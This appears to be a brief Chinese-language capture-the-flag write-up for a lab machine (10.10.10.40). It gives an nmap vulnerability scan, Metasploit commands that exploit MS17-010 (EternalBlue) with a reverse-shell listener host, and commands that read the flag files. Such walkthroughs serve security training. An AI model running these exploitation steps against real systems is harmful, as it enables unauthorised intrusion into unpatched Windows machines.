






namp

```bash
sudo nmap -T4 -p- -sV --script vuln -vv 10.10.10.40
```



nmap识别到存在永恒之蓝漏洞(ms17-010)



msf

use auxiliary/scanner/smb/smb\_version



use exploit/windows/smb/ms17\_010\_eternalblue

```bash
set rhosts 10.10.10.40
set lhost 10.10.14.12

run

```





flag

```bash
cd C:\Users | dir

type .\Administrator\Desktop\root.txt && type .\haris\Desktop\user.txt
```


